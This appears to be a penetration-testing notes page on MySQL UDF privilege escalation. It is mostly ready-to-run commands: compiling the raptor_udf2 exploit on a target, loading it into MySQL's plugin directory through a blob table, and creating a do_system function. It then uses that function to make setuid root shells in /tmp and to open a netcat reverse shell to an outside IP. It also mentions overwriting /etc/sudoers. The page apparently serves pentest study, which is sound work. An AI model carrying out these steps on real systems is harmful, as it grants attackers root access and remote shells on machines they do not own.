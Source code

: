 # MySQL UDF

## Preparing system for test

for testing purposes you can make your mysql service vulnerable manually

To configure this vulnerability on Kali to test run the following commands.

####   `chown -R root:root /var/lib/mysql  nano /etc/mysql/mariadb.conf.d/50-server.cnf  Change user=mysql to user=root and save the file  service mysql restart`

## Find which user the mysql servie is running as

in some situations we have a mysql running as root which we can use for privs. first we have to determin the commands that we can use in mysql.mysql has a module called UDF\(User-Defined Function\) which lets us run commands as the current user which myssql is runnung as. so whit this in mind we might be able to run root commands from mysql.

first we have to see if mysql is running as root:

  
 `ps aux | grep mysql`

![](../../../.gitbook/assets/udf1.png)

its running as root.login:

`mysql -u root  
 use mysql; >>> mysql is the database  
 select * from mysql.func; >>> search for udf`



![](../../../.gitbook/assets/udf2.png)

## if the mysql service already has the function we can skip exploit part:

now we use udf to copy /bin/sh to /tmp and make it executable for john to get a root prompt:

`select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh');  
 OR  
 select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');`

![](../../../.gitbook/assets/udf3.png)

exit and go to /tmp

run sh file:

![](../../../.gitbook/assets/udf4.png)

## if mysql doesnt have the function already we add it using the exploit:

{% embed url="https://www.exploit-db.com/download/1518.c" %}

{% file src="../../../.gitbook/assets/1518.c" %}

the instructions are in exploit itslef

compile on target machine

`gcc -g -c raptor_udf2.c >>> for 32 bit systems  
 gcc -g -c raptor_udf2.c -fPIC >>> for 64 bit  
 gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc`

This will prompt for the password.

mysql -u root -p &gt;&gt;&gt; press enter without any password

`use mysql;`

now we will need to create a temporary table for us to work with. We need a place to load in the Shared Binary into MySQL.

`create table foo(line blob);`

Now that we have the table setup we will need to insert the contents into the table. We do this because the next step is to export it to a root only directory. Since it was moved over or compiled on the victims machine as a non root user this is the only way to do it.

change the file path

`insert into foo values(load_file('/path/to/the/file/raptor_udf2.so'));`

With the raw binary inside of the table we can select it and dump the contents onto the disk anywhere we like! Note that you can even push the contents of a new /etc/sudoers file and overwrite it!

For a UDF to work we need to find the location of the plugins directory. This is where we need the file to be stored. otherwise you will get an error refering to ‘raptor\_udf2.so’ cannot be found.

Look for the value of plugin\_dir:

`show variables like '%plugin%';`

Use the plugin\_dir as the dump file location:

`select * from foo into dumpfile "/usr/lib/mysql/plugin/raptor_udf2.so";`

If there are no errors you were able to sucessfully push the raw binary of raptor\_udf2.so into the plugins directory owned by root! Now we need to create the function to complete the privelege escalation.

`create function do_system returns integer soname 'raptor_udf2.so';`

Now that this is done we can confirm the functions is present in mysql.

`select * from mysql.func;`

If we see the name do\_system with the type function we are good to go. The only thing left is to actually run the code we want.

`select do_system('nc 192.168.1.24 4444 -e /bin/bash &');`

We now setup our listener and we have a root shell!

